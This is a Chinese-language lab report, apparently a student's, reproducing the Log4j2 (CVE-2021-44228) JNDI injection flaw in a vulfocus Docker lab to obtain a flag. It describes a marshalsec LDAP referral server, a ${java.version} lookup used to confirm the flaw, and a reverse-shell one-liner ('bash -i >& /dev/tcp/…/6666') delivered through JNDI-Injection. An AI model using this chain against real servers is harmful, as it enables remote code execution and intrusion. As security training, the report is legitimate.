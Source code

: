 # 实验报告：Log4j2 44228漏洞环境搭建、漏洞验证与漏洞利用复现
## 一、实验目的
    搭建Log4j2 44228漏洞环境。
    验证漏洞的存在。
    利用漏洞获得flag

## 二、实验环境

### 操作系统：
1. Kali Linux
2. Java版本：JDK 1.8.0 202
3. Log4j2:
4. 测试工具：JNDI injector

## 三、实验步骤
### （一）漏洞环境搭建

    安装Java环境,下载并安装JDK1.8.0,验证java版本。
![alt text](./images/1742744070291.png)

    使用docker pull vulfocus/vulfocus:latest，编写vulfocus启动脚本,-d 是后台运行
![alt text](./images/1742744257111.png)


    赋予执行权限之后就可以运行这个脚本启动了
![alt text](./images/1742744336569.png)

    去镜像管理界面点击一键同步，搜索log4j2找到远程命令执行漏洞2，点击下载
![alt text](./images/1742744422165.png)


### （二）漏洞验证
    去首页启动该镜像，记住映射端口号
![alt text](./images/1742744483519.png)

    在浏览器中输入靶机网址：端口号，显示网页
![alt text](./images/1742744591379.png)

    在攻击者主机安装ldap server，编写启动脚本
1. marshalsec-0.0.3-SNAPSHOT-all.jar是反序列化利用工具
2. maeshalsec.jndi.LDAPRefServer用于启动LDAP服务
3. 指定恶意类的 URL 为"https://192.168.56.104:8080/#Exploit"
![alt text](./images/1742744780450.png)

    这个ldap服务器是用于在目标主机出发jndi查询的时候返回一个http的引用，运行此脚本
![alt text](./images/1742745347748.png)

    记住这个端口，构造payload，并使用url对其编码
![alt text](./images/1742745406763.png)

    复制编码，将其粘贴到payload=后面，并访问，显示ok
![alt text](./images/1742745504247.png)

    攻击者主机上面显示了查询记录，这可能并不能验证log4j2漏洞存在，但我们可以利用这个查询记录功能
![alt text](./images/1742745549186.png)

    构造一个带有test.${java.version}的payload，并将其用url编码，这个部分如果被执行，则会得到目标主机的java版本，然后会通过查询记录的方式显示到攻击者主机上。
![alt text](./images/1742799657079.png)

    访问后攻击者主机上显示了带有java版本的查询记录，这表示目标主机解析了url编码，运行了java.version，并在攻击者主机上留下了记录，可以验证漏洞存在
![alt text](./images/1742799685712.png)

    


### （三）漏洞利用复现
    安装JNDI-Injection，编写启动脚本，赋予权限。
1. 带有-SNAPSHOT-all.jar的是反序列化利用工具
2. -C 后面接的是想运行的代码的base64编码 bash -i >& /dev/tcp/192.168.56.104/6666 0>&1
3. bash -i是启动一个交互式的bash shell，-i意思是interactive
4. \>& 是重定向操作符，用于将标准输出和标准错误

![alt text](./images/1742745720813.png)

    启动脚本，选择trustURLCodebase is false的那项
![alt text](./images/1742745749391.png)

    使用nc -lvvp 6666监听6666端口
![alt text](./images/1742745903162.png)

    构造payload
![alt text](./images/1742745926937.png)

    拿到shell
![alt text](./images/1742745978450.png)

    在tmp文件夹中找到flag
![alt text](./images/1742746026757.png)
